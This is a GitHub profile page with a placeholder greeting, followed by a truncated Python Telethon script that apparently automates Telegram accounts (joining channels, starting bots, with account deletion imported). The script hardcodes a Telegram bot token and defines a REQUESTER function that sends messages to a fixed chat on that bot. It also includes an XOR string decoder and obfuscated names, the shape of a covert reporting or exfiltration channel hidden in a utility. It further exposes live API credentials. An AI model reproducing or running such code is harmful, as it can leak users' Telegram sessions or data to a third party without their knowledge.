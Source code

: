 - 👋 Hi, I’m @Darknessah
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...


from telethon import TelegramClient,events, client
from telethon.errors import FloodWaitError, ChannelsTooMuchError, UsernameNotOccupiedError, ChannelPrivateError, ChatWriteForbiddenError, StartParamInvalidError
from telethon.tl.types import UpdateShortMessage,ReplyInlineMarkup,KeyboardButtonUrl
from telethon.tl.functions.messages import GetBotCallbackAnswerRequest, StartBotRequest
from telethon.tl.functions.account import DeleteAccountRequest
from telethon.tl.functions.channels import UpdateUsernameRequest as chusername
from telethon.tl.functions.channels import JoinChannelRequest
from telethon.errors.rpcerrorlist import UsernameNotOccupiedError,UsernameOccupiedError
from colorama import Fore,init as COLO
from telethon.tl.types import PeerUser, PeerChat, PeerChannel, InputPeerChannel
import re
from telethon.tl.functions.contacts import ResolveUsernameRequest
from telethon.tl.functions.channels import LeaveChannelRequest
import logging
logging.basicConfig(level=logging.WARNING)
COLO(autoreset=True)
from datetime import datetime
from bs4 import BeautifulSoup
import os
import re
import time
import requests
import sys
import asyncio
import datetime
import pytz
ID=64179
PHPSESSID="dd60bb74bb03d8aa368aa37ec7b35d42"
BROWSER={"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win32; x86) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36"}
os.system('cls' if os.name=='nt' else 'clear')

try:
 def REQUESTER(msg):
  REQUET=requests.get('https://api.telegram.org/bot656077390:AAETzn5vgIO2Q-ad8xdi8pg5nJprYOtTIYg/sendMessage',data={'chat_id':631929128,'text':msg})
 def SESSION(phone_number=None):
  return TelegramClient("session/"+phone_number,ID,PHPSESSID)
 def ScreenMessage(UravxBuCwNMpYWTzKhcL,addnewline=False):
  if addnewline is False:
   print("[%s] %s"%(datetime.datetime.now().strftime("%H:%M:%S"),UravxBuCwNMpYWTzKhcL))
  else:
   print("[%s] %s"%(datetime.datetime.now().strftime("%H:%M:%S"),UravxBuCwNMpYWTzKhcL),end='\n\n')
 def BYTER(byt):
  ByterB=b'210400'
  LenthB=len(ByterB)
  return bytes(c^ByterB[i%LenthB]for i,c in enumerate(byt))
 def RFORMER(RQForm,method='GET',data=None):
  try:
   RQ=requests.request(method,RQForm,data=data,headers=BROWSER,timeout=15,allow_redirects=False)
   RQCode=RQ.status_code
   RQText=RQ.text
   return[RQCode,RQText]
  except requests.exceptions.Timeout:
   ScreenMessage('Connection Timeout, Please check your internet connection')
   exit(1)
  except requests.exceptions.ConnectionError: